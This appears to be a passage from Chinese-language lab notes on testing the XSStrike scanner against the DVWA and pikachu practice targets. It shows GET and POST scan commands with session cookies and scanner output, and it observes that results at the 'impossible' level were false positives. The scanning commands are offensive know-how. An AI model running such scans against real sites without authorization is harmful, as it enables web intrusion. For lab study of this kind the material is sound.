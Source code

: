 ```shell
......
```

随便找了几个 payload 放进去，确实有效，就是这个 payload 也未免生成的太多了吧。

将难度依次从 low 调整到 impossible ，strike 生成的 payload 直到 impossible 才失效，但是 strike 在扫描 impossible 难度的 url 时，也显示检测出了注入点，在命令行中加上 cookie，结果还是一样。

使用 wireshark 抓包，发现 strike 的确往靶场服务器发送了很多 HTTP 请求，但是靶场返回的数据已经把 payload 使用编码成了 HTML 实体，所以的确是误报了。

![](../../Image/Pasted%20image%2020230426182936.png)

***
#### 反射型 Post 方法

post 方法的XSS 注入可以使用 DVWA 存储型 XSS 模块和 pikachu 的 反射性xss(post) 模块。

使用 Get 方法检测漏洞的时候直接将参数放在 url 后面，strike 就能自动检测出来，但是 Post 方法的参数不是通过 url 传递的，需要我们手动添加。

从 DVWA 的存储型 XSS 模块开始，随便提交点什么东西，然后通过浏览器的开发者工具获取 url 和请求参数。

```shell
┌──(kali㉿kali)-[~/XSStrike]
└─$ python3 xsstrike.py -u "http://192.168.127.200/DVWA/vulnerabilities/xss_s/" --data "txtName=nick&mtxMessage=1&btnSign=Sign+Guestbook" --headers "Cookie: PHPSESSID=pq1qcitrhgdo0b9p7uj19vf21q; security=low" --skip-dom

[+] WAF Status: Offline
[!] Testing parameter: txtName
[!] Reflections found: 1
[~] Analysing reflections
[~] Generating payloads
[!] Payloads generated: 3071
```

由于是 post 方法，所以要记得加上 cookie，然后提醒一下各位，做这个实验的时候要及时使用 `ctrl+c` 终止程序，测几个 payload 就行了，不然几千个弹窗会把你的页面直接卡死，我最后只能上数据库删表了...

从 low 难度开始测试，同样是到 impossible 难度就不行了，依然是有误报，而且有点抽风。

```shell
┌──(kali㉿kali)-[~/XSStrike]
└─$ python3 xsstrike.py -u "http://192.168.127.200/DVWA/vulnerabilities/xss_s/" --data "txtName=nick&mtxMessage=1&btnSign=Sign+Guestbook" --headers "Cookie: PHPSESSID=pq1qcitrhgdo0b9p7uj19vf21q; security=impossible" --skip-dom

        XSStrike v3.1.5

[+] WAF Status: Offline
[!] Testing parameter: txtName
[!] Reflections found: 1
[~] Analysing reflections
[~] Generating payloads
[!] Payloads generated: 1536
 ~] Progress: 1536/1536
[!] Testing parameter: mtxMessage
[!] Reflections found: 770
[~] Analysing reflections
[~] Generating payloads
[!] Payloads generated: 1148740
```
